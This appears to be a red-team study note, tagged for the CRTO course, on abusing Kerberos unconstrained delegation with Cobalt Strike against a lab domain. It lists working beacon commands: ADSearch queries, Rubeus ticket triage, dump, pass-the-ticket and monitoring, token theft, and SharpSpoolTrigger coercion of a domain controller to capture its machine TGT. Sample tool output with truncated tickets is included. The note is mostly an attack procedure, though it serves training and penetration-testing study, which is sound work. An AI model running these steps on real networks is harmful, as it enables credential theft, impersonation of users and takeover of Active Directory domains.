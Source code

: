 [[Delegation]]

An interesting aspect to unconstrained delegation is that it will cache the user’s TGT regardless of which service is being accessed by the user. So, if an admin accesses a file share or any other service on the machine that uses Kerberos, their TGT will be cached.  If we can compromise a machine with unconstrained delegation, we can extract any TGTs from its memory and use them to impersonate the users against other services in the domain.

## 🖊️ via Cobalt Strike

#### 📔 Obtain user's account TGT

Obtain a User's TGT for unconstrained delegation

1) From a SYSTEM beacon, look for computers with unconstrained delegation enabled

`beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname`

Domain Controllers always have this feature enabled.

2) If your local beacon machine has it, we can now try to check if any local TGTs interact with any of those machines other machines. List your local TGTs (look for krbtgt):

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage`

3) Analyze the tickets displayed, one of those could be related/interacting with one of the machines you want access into (maybe the DC). 
4) If you identify one potential candidate, dump it, then create a new process locally using the ticket ([[Pass the Ticket]]) :

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
	
doIFwj [...snip...] MuSU8=

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1540
[+] Ticket successfully imported!
[+] LUID            : 0x3206fb
```

The locally created process will have the integrity of the ticket, which should give us access into the remote machine now.

5) [[Steal the token]] of the process:
`beacon> steal_token 1540`

6) Test access into the machine with something like:
`beacon> ls \\dc-2.dev.cyberbotic.io\c$`


#### 📔 Obtain machine's account TGT

You could try to force the remote machine to log into ours, monitor for any new [[Ticket Granting Ticket (TGT)]] newly cached, and use them:

1) Monitor for tickets

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
```

2) Run SharpSpoolTrigger, this will force the authentication

`beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io`

Where:

- DC-2 is the "target".
- WEB is the "listener" (your current beacon location)

3) Rubeus will then capture the ticket.

```
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFuj[...]lDLklP
```

4) If you pass the ticket here it would fail since it's a machine account's TGT. We have to use [[S4U2Self Abuse]] instead. We have to use this method because machines do not get remote local admin access to themselves. 



### ⚠ Opsec




### Properties
---
📆 created   {{18-02-2024}} 19:17
🏷️ tags: #redteam #crto 

---

